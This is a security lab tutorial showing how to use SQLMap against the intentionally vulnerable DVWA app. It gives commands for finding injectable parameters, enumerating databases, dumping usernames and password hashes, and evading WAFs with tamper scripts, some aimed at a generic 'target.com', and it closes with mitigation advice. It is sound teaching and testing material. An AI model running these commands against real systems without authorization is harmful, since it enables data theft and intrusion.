 ```yaml
---
title: Automating SQL Injection Using SQLMap
date: 2024-05-12 08:01:35 +0300
subtitle: Product Design
image: '/images/project-2.jpg'
---
```

# Lab 6: Automating SQL Injection Using SQLMap

## **Objective**
Learn how to use **SQLMap**, an open-source penetration testing tool, to automate the process of detecting and exploiting SQL injection vulnerabilities in web applications. This lab will also cover techniques for mitigating these vulnerabilities.

---

## **Prerequisites**
1. **Kali Linux or Any Linux Distro with SQLMap Installed**:
   - Verify SQLMap is installed:
     ```bash
     sqlmap --version
     ```
   - Install it if necessary:
     ```bash
     sudo apt update && sudo apt install sqlmap
     ```

2. **Vulnerable Web Application**:
   - Use an intentionally vulnerable application like DVWA (Damn Vulnerable Web Application) or OWASP Juice Shop.
   - **Tip**: Ensure your DVWA security level is set to **low** for easier exploitation.

3. **Basic Understanding of SQL Injection**:
   - Familiarity with SQL commands and how applications use SQL queries to interact with databases.
   - **Insight**: SQL injection manipulates vulnerable queries to access unauthorized data or perform unauthorized actions.

---

## **Step 1: Setting Up the Environment**
1. Start your vulnerable web application.
   - For DVWA, ensure your web server and database server are running.
   - Access DVWA via `http://localhost/dvwa` in your browser.

2. Log in to DVWA (default credentials: `admin` / `password`).
3. Navigate to the **SQL Injection** module.

---

## **Step 2: Identifying the Vulnerable Parameter**
1. In the SQL Injection module of DVWA, enter a test value into the input field (e.g., `1`).
2. Observe the response:
   - If the page behaves differently when you add a single quote (e.g., `1'`), it may be vulnerable to SQL injection.
   - **Insight**: Error messages or unusual behavior are indicators of SQL vulnerabilities.

---

## **Step 3: Running SQLMap**
1. Capture the vulnerable request:
   - Use a browser extension like Burp Suite or OWASP ZAP to intercept and save the HTTP request.
   - Alternatively, note the URL and query string (e.g., `http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit`).

2. Run SQLMap against the target:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit"
   ```
   - **`-u`**: Specifies the target URL.

3. Observe SQLMap’s output:
   - SQLMap will test for SQL injection vulnerabilities and display its findings.
   - **Tip**: Use the `--batch` option to skip confirmation prompts in automated scripts.

---

## **Step 4: Extracting Database Information**
1. Enumerate the database:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --dbs
   ```
   - **`--dbs`**: Lists available databases.

2. Choose a database and enumerate its tables:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -D <database_name> --tables
   ```
   - Replace `<database_name>` with the target database (e.g., `dvwa`).

3. Choose a table and enumerate its columns:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -D <database_name> -T <table_name> --columns
   ```
   - Replace `<table_name>` with the desired table (e.g., `users`).

4. Extract data from a table:
   ```bash
   sqlmap -u "http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" -D <database_name> -T <table_name> -C <column_name> --dump
   ```
   - Replace `<column_name>` with the column to extract (e.g., `username,password`).

---

## **Step 5: Advanced SQLMap Options**
1. **Bypassing WAFs (Web Application Firewalls):**
   - Use tamper scripts to evade basic security mechanisms:
     ```bash
     sqlmap -u "http://target.com/vulnerable" --tamper="space2comment"
     ```

2. **Testing All Parameters:**
   - If the application uses multiple parameters, test them all:
     ```bash
     sqlmap -u "http://target.com/page?id=1&name=test" --level=3 --risk=2
     ```
   - **Tip**: Higher `--level` and `--risk` values increase testing intensity.

3. **Identifying Database Type:**
   - Automatically detect the database type:
     ```bash
     sqlmap -u "http://target.com/vulnerable" --dbms=mysql
     ```

4. **Extracting Password Hashes:**
   - Dump and crack password hashes:
     ```bash
     sqlmap -u "http://target.com/vulnerable" -D <database_name> -T <table_name> -C password --dump
     ```

---

## **Step 6: Mitigation Techniques**
1. **Use Parameterized Queries:**
   - Ensure user input is safely handled by the database using prepared statements.

2. **Validate and Sanitize Inputs:**
   - Reject unexpected characters or patterns in user inputs.

3. **Implement Web Application Firewalls (WAFs):**
   - Use a WAF to filter out malicious requests.

4. **Limit Database Privileges:**
   - Restrict user roles to minimize the impact of successful attacks.

5. **Perform Regular Security Audits:**
   - Regularly scan and test applications for vulnerabilities.

---

## **Step 7: Cleaning Up**
1. Remove any test payloads or reset the vulnerable application to its default state.
2. Document your findings and share them responsibly.

---

## **Additional Tips and Insights**
1. **Ethical Considerations:**
   - Only perform SQLMap tests on systems where you have explicit permission to do so.

2. **Automation Benefits:**
   - SQLMap automates much of the manual work involved in exploiting SQL injection vulnerabilities, saving time and reducing human error.

3. **Use in CTFs (Capture The Flag):**
   - SQLMap is a powerful tool for solving CTF challenges that involve web exploitation.

4. **Continuous Practice:**
   - Experiment with different flags, tamper scripts, and configurations to deepen your understanding.

---

## **Key Takeaways**
1. SQLMap is a robust tool for detecting and exploiting SQL injection vulnerabilities.
2. Understanding its features and outputs allows for efficient testing and data extraction.
3. Secure coding practices and regular vulnerability assessments are essential for preventing SQL injection attacks.
